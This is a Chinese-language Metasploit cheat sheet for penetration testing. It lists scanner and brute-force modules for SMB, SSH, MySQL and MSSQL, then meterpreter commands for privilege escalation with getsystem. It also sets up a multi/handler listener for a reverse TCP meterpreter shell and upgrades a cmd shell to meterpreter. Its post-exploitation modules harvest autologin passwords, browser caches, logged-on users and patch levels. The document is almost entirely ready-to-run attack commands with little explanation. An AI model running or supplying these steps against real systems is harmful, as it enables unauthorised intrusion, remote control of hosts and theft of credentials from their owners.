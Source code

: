 
## 信息收集
利用 auxiliary 这个模块来获取目标网端的信息，包括端口开放情况、主机存活情况。
```bash
auxiliary/scanner/discovery/arp_sweep
auxiliary/scancer/smb/smb_version   # 存活的 445 主机
auxiliary/scanner/portscan/syn  # 端口扫描
auxiliary/scanner/telnet/telnet_version telent  # 服务扫描
auxiliary/scanner/rdp/rdp_scanner   # 远程桌面服务扫描
auxiliary/scanner/ssh/ssh_version ssh   # 主机扫描
auxiliary/scanner/smb/smb_version smb   # 服务扫描
```

爆破
```bash
auxiliary/scanner/mysql/mysql_login
auxiliary/scanner/mssql/mssql_login
auxiliary/scanner/ssh/ssh_login
```

---

## meterpreter
### 快速上手
```bash
shell   # 获取目标主机的 cmd shell
getsystem   # 命令可以提权到本地系统权限
sysinfo # 显示系统名,操作系统,架构和语言等。
```

### 获取会话
**handler**
```bash
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST
set LPORT
exploit -j  # 后台执行
```

**cmdshell 升级为 meterpreter**

如果最开始获取的是 cmdshell,后来发现这台机器非常适合作为测试其它终端的跳板,这个时候 cmdshell 的功能已经不能满足需要,升级成 meterpreter 就十分有必要。`sessions -u "id"` 将该 cmdshell 升级成 meterpreter

### 信息收集

**环境检测**
```bash
run post/windows/gather/checkvm #是否虚拟机
run post/linux/gather/checkvm   #是否虚拟机

getuid  # 查看当前用户

run post/windows/gather/enum_applications   # 获取目标主机安装软件信息；
run post/windows/gather/enum_patches    # 查看目标主机的补丁信息；
run post/windows/gather/enum_domain # 查找目标主机域控。
run post/windows/gather/enum_logged_on_users    # 列举当前登陆过主机的用户；
run post/windows/gather/credentials/windows_autologin   # 抓取自动登陆的用户名和密码；

run post/windows/gather/forensics/enum_drives   # 查看分区
run post/windows/gather/enum_applications   # 获取安装软件信息
run post/windows/gather/dumplinks   # 获取最近的文件操作
run post/windows/gather/enum_ie # 获取 IE 缓存
run post/windows/gather/enum_chrome # 获取 Chrome 缓存
```